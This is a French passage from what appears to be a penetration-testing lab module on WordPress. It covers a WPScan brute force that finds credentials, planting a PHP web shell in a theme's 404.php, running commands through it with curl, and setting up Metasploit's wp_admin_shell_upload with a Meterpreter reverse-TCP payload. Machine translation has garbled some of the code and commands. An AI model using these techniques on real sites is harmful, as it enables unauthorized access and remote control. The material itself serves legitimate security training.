 L'indicateur `--password-attack` est utilisé pour indiquer le type d'attaque. L'argument `-U` accepte une liste d'utilisateurs ou un fichier contenant des noms d'utilisateurs. Cela s'applique également à l'option de mots de passe `-P`. Le drapeau `-t` est le nombre de threads que nous pouvons ajuster vers le haut ou vers le bas en fonction. WPScan a pu trouver des informations d'identification valides pour un utilisateur, `john:firebird1`.

* * * * *

Exécution de code
--------------

Avec un accès administratif à WordPress, nous pouvons modifier le code source PHP pour exécuter des commandes système. Connectez-vous à WordPress avec les informations d'identification de l'utilisateur `john` , ce qui nous redirigera vers le panneau d'administration. Cliquez sur `Apparence` sur le panneau latéral et sélectionnez Éditeur de thème. Cette page nous permettra d'éditer directement le code source PHP. Un thème inactif peut être sélectionné pour éviter de corrompre le thème principal. Nous savons déjà que le thème actif est Transport Gravity. Un thème alternatif tel que Twenty Nineteen peut être choisi à la place.

Cliquez sur `Sélectionner` après avoir sélectionné le thème, et nous pouvons modifier une page inhabituelle telle que `404.php` pour ajouter un shell Web.

Code : php

```
système($_GET[0]);

```

Le code ci-dessus devrait nous permettre d'exécuter des commandes via le paramètre GET `0`. Nous ajoutons cette seule ligne au fichier juste en dessous des commentaires pour éviter une trop grande modification du contenu.

![](https://academy.hackthebox.com/storage/modules/113/theme_editor.png)

Cliquez sur `Mettre à jour le fichier` en bas pour enregistrer. Nous savons que les thèmes WordPress se trouvent dans `/wp-content/themes/<theme name>`. Nous pouvons interagir avec le shell Web via le navigateur ou en utilisant `cURL`. Comme toujours, nous pouvons ensuite utiliser cet accès pour obtenir un shell inverse interactif et commencer à explorer la cible.

```
dsgsec@htb[/htb]$ curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

Le module [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) de Metasploit peut être utilisé pour télécharger un shell et l'exécuter automatiquement.

Le module télécharge un plugin malveillant et l'utilise ensuite pour exécuter un shell PHP Meterpreter. Nous devons d'abord définir les options nécessaires.

```
msf6 > utilisez exploit/unix/webapp/wp_admin_shell_upload

[*] Aucune charge utile configurée, par défaut php/meterpreter/reverse_tcp

exploit msf6 (unix/webapp/wp_admin_shell_upload) > définir les rhosts blog.inlanefreight.local
exploit msf6 (unix/webapp/wp_admin_shell_upload)> définir le nom d'utilisateur john
exploit msf6 (unix/webapp/wp_admin_shell_upload) > définir le mot de passe firebird1
exploit msf6 (unix/webapp/wp_admin_shell_upload) > définir lhost 10.10.14.15
exploit msf6 (unix/webapp/wp_admin_shell_upload) > définir rhost 10.129.42.195
exploit msf6 (unix/webapp/wp_admin_shell_upload) > définir VHOST blog.inlanefreight.local

```
